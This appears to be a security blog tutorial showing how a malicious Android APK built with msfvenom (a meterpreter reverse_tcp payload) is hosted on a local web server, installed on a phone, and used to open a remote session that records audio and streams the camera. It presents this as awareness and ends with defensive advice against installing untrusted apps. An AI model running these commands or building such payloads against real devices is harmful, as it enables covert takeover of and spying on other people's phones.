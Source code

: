 
<a href="https://github.com/vinagrsec">About</a> | <a href="https://vinagrsec.github.io">Posts</a>

<p><span style="float: left; width: 0.8em; font-size: 600%; font-family: courier, courier; line-height: 80%;">W</span>hat can happen to your android phone when you download an android application from an untrusted source? What would be its impact on your phone? Well, the results are pretty scary. You won't even know what is going on in the background of your android phone when you download a malicious application.</p>

<p>In this article, we will learn how an attacker can take over control on your phone when you install an application from untrusted sources. We will learn about the approach he/she can take and the results. So, let's begin.</p>

<p><em><strong>Note:</strong> Before we proceed, please keep in mind that this tutorial/article is just for an educational purpose. This is to make everyone aware about the consequences of using android application from an untrusted/unknown sources.</em></p>

<p>I will be performing the process in my own network only. But, one can perform the attack process in any network either LAN or WAN (External network). In this process, three actors are involved:</p>

<ul id="block-400dce76-fd3e-48ca-9918-fe47222769a8"><li>Kali Linux Machine<strong> (Attacker)</strong></li><li>Malicious Android application<strong> (APK)</strong></li><li>Android Phone<strong> (Victim)</strong></li></ul>

<p><em><strong>Note:</strong> Attacker and Victim are on the same network here i.e. 192.168.172.x.</em></p>

<p><strong>Step-1: Creating Malicious Payload</strong></p>

<p>You need to create a malicious android payload first. For this, login to your Kali Linux machine and follow the below command (Hope you already have installed the Kali Linux in your PC. If not, you can find tons of tutorial for installing Kali Linux over internet. I will not be wasting your time here :-D)</p>

<p><strong>#<code>msfvenom -p android/meterpreter/reverse_tcp LHOST=&lt;ip-address&gt; LPORT=&lt;any unused port&gt; -f raw &gt; myandroid.apk</code></strong></p>

![image-1](https://user-images.githubusercontent.com/92144178/136511602-460ffb67-f397-43f4-9dc5-80336e06afc8.png)

<p>"<em>Msfvenom, here is a command line instance of Metasploit that is used to generate and output all of the various types of shell code that are available in Metasploit.</em>"</p>

<strong>•	-p:</strong> Payload <br><strong>•	LHOST:</strong> Local Host <br><strong>•	LPORT:</strong> Local Port <br><strong>•	-f:</strong> Format
 

<p><strong>Step-2: Launch Metasploit Framework</strong></p>

<p>Once you create your own APK, it's time launch metasploit framework using msfconsole command in Kali linux machine.</p>

<p>"<em>The Metasploit Framework is a Ruby-based, modular penetration testing platform that enables you to write, test, and execute exploit code. The Metasploit Framework contains a suite of tools that you can use to test security vulnerabilities, enumerate networks, execute attacks, and evade detection.</em>"</p>

<p>Once the Metasploit framework is launched, you need to use multi/handler, which is a stub that handles exploits launched outside of the framework.</p>

![image-2](https://user-images.githubusercontent.com/92144178/136511950-a4fd8947-33f7-4ae3-b1e3-0650d921a334.png)

<p><em><strong>Note:</strong> Make sure you're using the same payload which you have used while creating the malicious apk in Step-1.</em></p>

<p><strong>Step-3: Host the Malicious Android Application</strong></p>

<p>Now, handler is running. You need to host your malicious android application to somewhere so that victim can download it in his/her android phone.</p>

<p>As this process is only for our own network, you can host it there only. For this you can use one python's module called SimpleHTTPServer.</p>

<p>"<em>Python’s SimpleHTTPServer is the classic quick solution for serving the files in a directory via HTTP (often, you’ll access them locally, via localhost).</em>"</p>

<p><strong>#<code>python -m SimpleHTTPServer 8080</code></strong></p>

![image-3](https://user-images.githubusercontent.com/92144178/136512500-039235d0-94dc-42bc-9719-1e1cdd726000.png)

<p><em><strong>Note:</strong> The above command should be run under the same directory where the malicious android application is kept.</em></p>

<p><strong>Step-4: Download the Hosted Malicious APK on Android Phone</strong></p>

<p>Now, download the malicious android application using the following URL in your android phone's browser. <em>(Please remember the IP address in the URL is your Kali Linux machine local IP address)</em></p>

<p><strong><code>http://192.168.172.32:8080/myandroid.apk</code></strong></p>

![Screenshot_20211007-131743_Chrome](https://user-images.githubusercontent.com/92144178/136513557-054fb4a3-ad08-4ebb-81fa-9d08e687fc6c.jpg)
<br>
<p>Once the hosted APK is accessed from your android phone, you can see the logs generated in Kali Linux for SimpleHTTPServer.</p>

![simple-http-server-log](https://user-images.githubusercontent.com/92144178/136512906-a0d5fcd8-d392-42f9-a399-3dd439cae55e.png)


<p><strong>Step-5: Install and Access the Android Application</strong></p>

<p>Once the apk is downloaded, install it and click on it.</p>

![combined-package-installer-and-file-resized-2](https://user-images.githubusercontent.com/92144178/136516291-b3873611-e311-4f58-9bff-560e8cdcf2f3.jpg)


<p><strong>Step-6: Et Voilà !..You Got the Control</strong></p>

<p>Once you click on the application, you can look into your Kali Linux machine. You must have got the meterpreter session. That means, you have the control on victim's android phone.</p>

![image-4](https://user-images.githubusercontent.com/92144178/136516512-5136ce39-c12f-40f5-a57a-ccb6b62fbf27.png)

<p><strong>Step-7: Get Ready for the Killing</strong></p>

<p>Now, you can type "help" command to see what you can do with the victim's phone.</p>

![help-all-combined](https://user-images.githubusercontent.com/92144178/136519833-ceb86a4e-0e2b-4133-bafe-76c85cb73274.png)

<p><strong>Step-8: Sneak Peek</strong></p>

<p>As you can see, you can run numerous commands on the hacked android phone. You can dump all the contact numbers, SMS and other sensitive data. You can record the audio, switch ON the camera and even run a live webcam on victim's phone. Victim will be totally unaware about it. Here're the command below you can run to check:</p>

<p><strong>meterpreter&gt;record_mic</strong>  --&gt; To record the audio</p>
<p><strong>meterpreter&gt;webcam_snap</strong>  --&gt; To capture the image from the camera</p>
<p><strong>meterpreter&gt;webcam_stream</strong>  --&gt; To run live camera/video</p>

<p>As you can see, how scary it can be if you download the android application from unknown/untrusted sources.</p>
<br>
<p><strong>Conclusion</strong></p>

<p>So, what we learned from the activity we've done is:</p>

<ul><li>Never download any android application from unknown/untrusted sources.</li><li>Always download the application from Google Play Store.</li><li>Make sure your installed application gets scanned with Google Play Protect.</li><li>Disable Installation of Unknown applications in phone Settings.</li></ul>


<p>So, this is it for now. I hope this article was insightful. In the 2nd part, we will learn more sophisticated way to create malicious android application. Stay tuned..!!</p>
<br>
<p><strong>Reference</strong></p>

<li><a href="https://www.offensive-security.com/metasploit-unleashed/">https://www.offensive-security.com/metasploit-unleashed/</a></li>

<br>
<script src="https://utteranc.es/client.js"
        repo="vinagrsec/android-hacking"
        issue-term="pathname"
        theme="github-light"
        crossorigin="anonymous"
        async>
</script>


